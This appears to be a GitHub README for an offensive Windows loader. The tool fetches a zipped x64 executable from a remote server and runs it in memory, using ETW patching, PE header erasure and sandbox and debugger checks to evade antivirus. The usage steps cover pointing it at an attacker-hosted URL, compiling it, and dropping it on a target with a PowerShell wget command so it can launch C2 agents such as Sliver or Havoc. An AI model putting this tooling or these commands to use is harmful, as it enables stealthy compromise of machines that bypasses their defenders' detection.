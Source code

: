 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader tool enables direct in-memory execution of a x64 PE file (exe embeded in a zip file) retrieved from a remote web server.
It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a remote x64 PE) 
- ETW bypass in user-mode (patching EtwEventWrite functions)
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...


#### USAGE
- STEP 1 - Modify the source code by removing all comments and 'printf' statements, etc. Then, add into the main() function the URL of your ZIP file embeding the offensive security tool that you want to execute.
```
Edit the main() function - Examples:
 - BYTE *zipData = DownloadZipToMemory("http://Your-IP-address/file.zip", &zipSize);
   or
 - BYTE *zipData = DownloadZipToMemory("https://website/file.zip", &zipSize);
```

- STEP 2 - Compile the source code (for example with Visual Studio 2022 Developer Command Prompt v17.14.14).  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example:
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe Icon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
```
Examples:
- http://XX.XX.XX.XX:8080/file.zip
- http://XX.XX.XX.XX/file.zip
- https://your.website/file.zip
```
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and use it to download, unzip and execute in-memory your remote compressed offensive security tool
```
1. Download the loader
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe

2. Run the loader with the arguments to pass to the PE
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
	or
2.bis Run the loader without argument
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth because the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


